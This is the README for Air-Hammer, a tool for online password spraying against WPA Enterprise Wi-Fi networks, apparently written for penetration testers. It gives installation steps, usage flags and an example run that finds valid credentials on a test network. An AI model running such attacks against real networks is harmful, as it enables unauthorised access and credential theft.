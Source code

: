 Air-Hammer - A WPA Enterprise horizontal brute-force attack tool
==========
*Created by Michael "Wh1t3Rh1n0" Allen, 2016-09-01*

Introduction
------------
Air-Hammer is an online brute-force attack tool for use against WPA Enterprise networks. Although WPA Enterprise is often considered "more secure" than WPA-PSK, it also has a much larger attack surface. While WPA-PSK networks have only one valid password, there may be thousands of valid username and password combinations which grant access to a single WPA Enterprise network. Further, passwords used to access WPA Enterprise networks are commonly selected by end users, many of whom select **extremely common passwords**.

Air-Hammer has several advantages over current attacks against WPA Enterprise networks including:

* Client-less attacks
* Potentially larger attack surface
* Minimal hardware requirements

For a more detailed introduction to Air-Hammer, see my original blog post on it [here][1]


Screenshots
-----------
![Air-Hammer in use](http://192.168.0.102:1313/images/air-hammer-01.jpg)


Installing dependencies
-----------------------
Air-Hammer has been built and used on the current version of Kali Linux. In addition to packages that come with Kali Linux by default, the following dependencies need to be installed:

* [python-wpa-supplicant][2]:

        root@kali:~# pip install wpa_supplicant


Other requirements
------------------
Air-Hammer requires a list of usernames that are valid for the target network in order to function. Some basic suggestions for creating this list are included in [step 2 of the attack chain outlined on my blog][3].


Usage
-----
The `-h` or `--help` flags can be used to display Air-Hammer's usage instructions.

```
root@kali:~# ./air-hammer.py --help
usage: air-hammer.py -i interface -e SSID -u USERFILE [-P PASSWORD]
                     [-p PASSFILE] [-s line] [-w OUTFILE] [-1] [-t seconds]

Perform an online, horizontal dictionary attack against a WPA Enterprise
network.

optional arguments:
  -i interface  Wireless interface (default: None)
  -e SSID       SSID of the target network (default: None)
  -u USERFILE   Username wordlist (default: None)
  -P PASSWORD   Password to try on each username (default: None)
  -p PASSFILE   List of passwords to try for each username (default: None)
  -s line       Optional start line to resume attack. May not be used with a
                password list. (default: 0)
  -w OUTFILE    Save valid credentials to a CSV file (default: None)
  -1            Stop after the first set of valid credentials are found
                (default: False)
  -t seconds    Seconds to sleep between each connection attempt (default:
                0.5)
```

Example
-------
Below is a standard attack using wlan0 to target the "Test-Network" wireless network with the password, "UserPassword1", and a list of usernames stored in the file, "usernames.txt".

```
root@kali:~# ./air-hammer.py -i wlan0 -e Test-Network -P UserPassword1 -u usernames.txt 
[0]  Trying alice:UserPassword1...
[1]  Trying bob:UserPassword1...
[2]  Trying charlotte:UserPassword1...
[3]  Trying dave:UserPassword1...
[4]  Trying wifiuser:UserPassword1...
[!] VALID CREDENTIALS: wifiuser:UserPassword1
[5]  Trying wrongUser05:UserPassword1...
[6]  Trying wrongUser06:UserPassword1...
```


[1]: http://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/
[2]: https://github.com/digidotcom/python-wpa-supplicant
[3]: http://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/#attack-chain
